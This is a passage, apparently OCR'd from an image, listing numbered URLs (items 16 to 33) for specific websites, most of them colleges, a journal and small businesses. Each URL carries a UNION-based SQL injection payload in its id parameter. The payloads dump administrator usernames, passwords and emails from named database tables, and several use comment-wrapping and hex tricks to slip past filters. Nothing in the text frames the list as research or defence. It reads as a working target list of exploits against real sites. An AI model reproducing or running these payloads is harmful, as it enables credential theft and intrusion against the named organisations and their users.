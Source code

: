 16. https://www.rad-journal.org/paper.php?id=-5%27%20/*!12345union*/%20select%201,2,3,group_concat(Mobile,0x3a3a,email,%20%27%3Cbr%3E%27),5,6,7,8,9,10,11,12,13,14%20from%20radconfe_2016.registrations--+

17. http://vidyasthal.com/cs-professional.php?id=-7%27%20union%20select%201,2,group_concat(admin_name,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27),4%20from%20admin--+

18. https://kecspulincunnoo.ac.in/academics.php?id=-7%27%20/*!12345union*/%20/*!12345select*/%201,2,/*!12345unhex(hex(group_concat(uname,0x3a3a,pwd,%20%27%3Cbr%3E%27)))*/,4,5,6%20/*!12345from*/%20login--+

19. http://barjoracollege.org/academics.php?id=4&sid=34&tid=-20%20union%20select%20group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27)%20from%20tbl_admin--

20. https://gpgcagastyamuni.org/department.php?id=-57%27%20union%20select%201,2,group_concat(user_id,0x3a3a,password,%20%27%3Cbr%3E%27),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18%20from%20admin--+

21. https://www.sncollegekannur.ac.in/department.php?id=-10%27%20union%20select%201,2,3,group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25%20from%20adminlogin--+

22. https://lrfes.com/department.php?id=-31%27%20union%20select%201,2,3,4,group_concat(email,0x3a3a,password,%20%27%3Cbr%3E%27),6,7,8,9,10,11,12,13,14,15,16,17,18,19%20from%20users--+

23. https://www.krssnc.in/department.php?id=-2%27%20union%20select%201,2,3,group_concat(username,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27),5,6,7,8,9,10%20from%20tbl_admin--+

24. http://www.tnmps.com/academics.php?id=-1%20union%20select%201,2,group_concat(user_name,0x3a3a,password,%20%27%3Cbr%3E%27),4,5%20from%20_sch_user--

25. http://www.nerailwaygic.com/academics.php?id=-1%27%20union%20select%201,2,group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27),4,5%20from%20_vis_users--+

26. http://www.gracademy.in/academics.php?id=-2%27%20union%20select%201,2,group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27),4,5,6,7,8%20from%20_vis_users--+

27. http://www.springerloretto.in/academics.php?id=-4%27%20union%20select%201,2,group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27),4,5,6,7,8%20from%20_vis_users--+

28. https://www.chinmayadc.edu.in/department.php?id=-41%27%20union%20select%201,2,3,group_concat(user_id,0x3a3a,password,%20%27%3Cbr%3E%27),5,6,7%20from%20admin--+

29. https://www.nootancollegeofnursing.org/hospital.php?id=-22%20union%20select%201,2,group_concat(username,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27),4,5%20from%20admin--

30. http://www.afaatim.com/title.php?id=-295%27%20union%20select%201,group_concat(user_name,0x3a3a,user_password,%20%27%3Cbr%3E%27)%20from%20admin_user--+

31. https://www.saide.org.za/project.php?id=-58%20union%20select%201,2,3,group_concat(username$text,0x3a3a,email$text,0x3a3a,password$password,%20%27%3Cbr%3E%27),5,6,7,8,9,10,11,12,13,14,15,16,17,18%20from%20users--

32. https://www.realroofers.com/view-project.php?id=-23%20/*!12345union*/%20/*!12345select*/%201,2,3,4,5,6,/*!12345group_concat(username,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27)*/,8,9,10,11,12,13%20/*!12345from*/%20users--

33. http://burobd.org/remittance-program.php?id=-14%27%20union%20select%201,2,group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27),4,5,6,7,8%20from%20admin--+
